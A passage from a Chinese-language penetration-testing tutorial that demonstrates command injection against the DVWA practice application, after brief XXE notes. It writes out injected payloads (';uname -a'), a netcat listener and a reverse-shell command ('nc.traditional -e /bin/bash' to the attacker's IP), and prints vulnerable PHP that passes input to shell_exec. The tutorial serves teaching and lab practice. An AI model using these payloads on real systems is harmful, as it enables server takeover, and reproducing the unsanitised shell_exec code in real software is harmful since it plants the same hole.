PHP 支持的 XML 实体也有不同的包装器（如`file://`或`http://`），如果在服务器上启用，可能允许执行命令而无需上传文件。它的格式是`://`。你可以在这里找到更多关于此和其他包装器的信息：[`www.php.net/manual/en/wrappers.php`](http://www.php.net/manual/en/wrappers.php)。

# 另请参见

若想查看一些世界上最受欢迎网站上发现的 XEE 漏洞的精彩实例，浏览一下[`www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution`](http://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution)。或者，查看一个更新的实例，了解如何利用 Oracle Peoplesoft： [`www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce`](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce)。

# 检测并利用命令注入漏洞

我们之前已经看到，PHP 的`system()`可以用来在服务器上执行操作系统命令；有时，开发人员使用类似的指令或其他具有相同功能的指令来执行某些任务。有时，他们会使用未经验证的用户输入作为执行命令的参数。

在本教程中，我们将利用命令注入漏洞并从服务器中提取重要信息。

# 如何操作...

登录到 DVWA 并进入命令执行：

1.  我们将看到一个免费的 Ping 表单。让我们试试吧！Ping `192.168.56.10`（我们 Kali Linux 机器的 IP）：



该输出看起来像是直接从 ping 命令的输出中提取的。这表明服务器可能在使用操作系统命令来执行 ping，因此可能存在注入操作系统命令的可能性。

1.  让我们尝试注入一个非常简单的命令。提交以下代码，`192.168.56.10;uname -a`：


我们可以看到`uname`命令的输出紧跟在 ping 的输出之后。这里存在一个命令注入漏洞。

1.  如果没有 IP 地址，试试`;uname -a`。结果如下图所示：


1.  现在，我们将获得服务器上的反向 Shell。首先，我们必须确保服务器上有我们需要的所有工具。提交`;ls /bin/nc*`。它应该返回一个带有完整路径的文件列表：


所以，我们有多个版本的 NetCat，这是我们将用来生成连接的工具。OpenBSD 版本的 NetCat 不支持在连接时执行命令，因此我们将使用传统版本。

1.  下一步是在我们的 Kali 机器上监听一个连接；打开一个终端并运行以下命令：

```
nc -lp 1691 -v
```

1.  然后，在浏览器中提交以下内容：`;nc.traditional -e /bin/bash 192.168.56.10 1691 &`。

1.  我们将看到在监听的 Kali 终端中如何接收连接。在那里，我们可以像以下示例一样在服务器上执行命令：


我们的终端会对连接做出响应。现在，我们可以发出非交互式命令并检查其输出。

# 它是如何工作的...

与 SQLi 等其他情况一样，命令注入漏洞是由于输入验证机制不当，并且使用用户提供的数据来构建字符串，这些字符串稍后会作为命令传递给操作系统。如果我们查看刚才攻击的页面的源代码（每个 DVWA 页面右下角都有一个按钮），它将看起来像这样：

```
<?php
if( isset( $_POST[ 'submit' ] ) ) 
{
    $target = $_REQUEST[ 'ip' ];
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) 
    {
        $cmd = shell_exec( 'ping ' . $target );
        echo '<pre>'.$cmd.'</pre>';
    } 
    else 
    {
        $cmd = shell_exec( 'ping -c 3 ' .$target );
        echo '<pre>'.$cmd.'</pre>';
    }
}
?>
```

我们可以直接看到它将用户的输入附加到 `ping` 命令中。我们所做的只是添加了一个分号，系统的 shell 将其解释为命令分隔符，接下来是我们想要执行的命令。

在成功执行命令后，下一步是验证服务器是否安装了 NetCat，这是一个能够建立网络连接并且在建立新连接时执行命令的工具。我们发现服务器的系统有两个不同版本的 NetCat，并执行了我们知道支持所需功能的那个版本。

然后，我们将攻击系统设置为监听 `1691` 端口的连接（它可以是任何其他可用的 TCP 端口），之后，我们指示服务器通过该端口连接到我们的机器，并在连接建立时执行 `/bin/bash`（一个系统 shell）。通过该连接发送的任何内容都将作为输入被服务器中的 shell 接收。命令末尾的 `&` 用于在后台执行该命令，并防止 PHP 脚本执行因等待命令响应而中断。
